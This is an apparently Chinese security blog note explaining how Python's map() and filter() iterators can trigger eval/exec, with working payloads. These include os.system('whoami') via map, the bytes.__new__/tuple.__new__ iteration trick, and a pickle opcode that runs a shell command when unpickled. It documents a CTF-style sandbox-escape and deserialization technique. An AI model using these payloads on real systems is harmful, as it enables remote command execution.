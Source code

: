 两个函数都是python的内置函数.首先来看`map()`和`filter()`是什么

map(*function*, *iterable*, **iterables*)

> 返回一个将 *function* 应用于 *iterable* 的每一项，并产生其结果的迭代器。 如果传入了额外的 *iterables* 参数，则 *function* 必须接受相同个数的参数并被用于到从所有可迭代对象中并行获取的项。 当有多个可迭代对象时，当最短的可迭代对象耗尽则整个迭代将会停止。

filter(*function*, *iterable*)

> 使用 *iterable* 中 *function* 返回真值的元素构造一个迭代器。 *iterable* 可以是一个序列，一个支持迭代的容器或者一个迭代器。 如果 *function* 为 `None`，则会使用标识号函数，也就是说，*iterable* 中所有具有假值的元素都将被移除。
>
> 请注意， `filter(function, iterable)` 相当于一个生成器表达式，当 function 不是 `None` 的时候为 `(item for item in iterable if function(item))`；function 是 `None` 的时候为 `(item for item in iterable if item)` 。

注意这两个函数都返回一个迭代器,所以我们需要使用`list()`函数将其变为一个列表输出.

payload

```
map(eval,[__import__("os").system("whoami")])
list(map(eval,['__import__("os").system("whoami")']))
```

`map()`和`filter()`创造的迭代器有一个叫做"懒惰”的特性,也就是需要迭代一次,才能让`func`调用`iterator`里的值.所以我们就需要使用`__next__()`方法对`map()`创建的迭代器进行迭代

参照[AndyNoel](https://xz.aliyun.com/u/51470)师哥的payload:

```
bytes.__new__(bytes, map.__new__(map, eval, ['print(1)']))  # bytes_new->PyBytes_FromObject->_PyBytes_FromIterator->PyIter_Next
tuple.__new__(tuple, map.__new__(map, exec, ["print('1')"]))  # tuple_new_impl->PySequence_Tuple->PyIter_Next
```

这样就可以通过`__new__()`方法对`map()`生成的迭代器进行迭代了.

opcode:

```
opcode=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
tuple
p4
(g3
t\x81.'''
```
